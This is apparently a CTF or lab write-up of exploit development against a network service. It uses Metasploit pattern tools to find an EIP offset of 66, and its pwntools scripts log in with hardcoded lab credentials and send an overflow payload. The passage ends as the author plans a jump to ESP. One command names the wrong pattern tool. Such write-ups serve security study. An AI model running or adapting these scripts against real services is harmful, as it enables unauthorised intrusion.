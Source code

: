 I used pattern_create.rb to get the EIP
``` bash
pattern_create.rb -l 800
 ```
 
``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
payload = b"pattern_create output"

r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)


```

Use pattern_offset.rb to get the offset
``` bash
pattern_create.rb -l 800 -q offset#
 ```

the offset is 66, now I verify if i get the control of the EIP

``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
# payload = b"pattern_create output"
offset = 66
payload = b"A"*offset + b"B"*4 + b"C"*100


r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)

```

checking de ESP I confirm that i don't have space to inject the shellcode, so I need that the EIP apoint to ESP, the idea is jump to a direccion that apply the jump to the ESP

